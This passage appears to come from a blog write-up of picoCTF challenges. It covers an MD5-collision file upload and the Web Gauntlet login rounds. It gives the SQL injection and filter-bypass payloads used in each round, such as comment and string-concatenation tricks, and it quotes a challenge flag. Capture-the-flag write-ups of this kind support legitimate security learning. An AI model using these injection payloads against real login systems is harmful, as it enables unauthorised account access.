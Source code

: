 Got a web page with an option to upload **two documents**.

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*BLp6nMnPNjhc9tQAWnmFJw.png)

The prompt hints: _“Two files that look similar and have the same md5 hash.”_  
Sounds like… **MD5 collision**

Googled and landed here: [md5collision files](https://www.mscs.dal.ca/~selinger/md5collision/)

Downloaded `erase` and `hello`. Renamed them to `erase.pdf` and `hello.pdf`(just added `.pdf` extension). Uploaded both…

Boom — it worked. Got the flag:

> picoCTF{c0ngr4ts\_u\_r\_1nv1t3d\_aad886b9}

**32\. Web Gauntlet**
----

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*fK-qpZjTvXNIR9FsgjftbA.png)

We actually did **Web Gauntlet 2 & 3 first** 😅 So this one felt like the prequel. There are **5 rounds**, and after each successful login, `filter.php` gets updated with more restrictions.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*wWPUZJVAQQq1BPfkSsEHcA.png)

![filter.php](https://miro.medium.com/v2/resize:fit:204/format:webp/1*K39u6N4C--WEqc_cdDaShA.png)

**Round 1**

Filtered: `or`  
Payload: `admin'--`  
Logged in.

**Round 2**

Filtered: `or, and, like, =, --`  
Used a classic bypass: `admin' /*`  
Success.

**Round 3**

Filtered: `or, and, =, like, >, <, -`  
Just tried: `admin';`  
Yep.

**Round 4**

Filtered: `or,and,like,=,--,>,<,admin`  
`ad'||'min';` worked.  
Logged in again.

**Round 5**

Filtered: `or, and, =, like, >, <, -, union, admin`  
`ad'||'min';` still passes

After all 5 rounds, visited `filter.php` and found the flag:
